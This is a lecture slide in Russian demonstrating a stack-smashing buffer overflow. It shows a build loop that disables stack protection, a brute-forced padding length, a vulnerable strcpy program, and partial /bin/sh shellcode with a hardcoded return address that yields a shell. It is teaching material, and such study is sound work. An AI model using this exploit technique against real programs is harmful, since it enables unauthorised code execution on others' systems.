

# Пример: Stack Smashing
$ CFLAGS=‘-Wl,-z,execstack -fno-stack-protector –w’
$ PAD=
$ for i in `seq 1 128`; do
  echo PAD=$i
  gcc -m32 -DPAD="\"$PAD\"" -march=i686 $CFLAGS repro.c
  setarch -R env -i ./a.out
  PAD="$PAD\\xff"
done

PAD=1
PAD=2
PAD=3
...
PAD=20
Segmentation fault (core dumped)
PAD=21
Segmentation fault (core dumped)
...
PAD=25
$   # Получен доступ к shell
int main() {
  char buf[32];
  strcpy(buf, code);
}

// Входная строка пользователя
const char code[] =
  "\x31\xc0"    // xorl %eax, %eax
  "\x50"        // pushl %eax
  "\x68""//sh"  // pushl $0x68732f2f
  "\x68""/bin"  // pushl $0x6e69622f
  ...
  PAD
  // Return address can be obtained with returns below
  "\x0c\xde\xff\xff"
;
6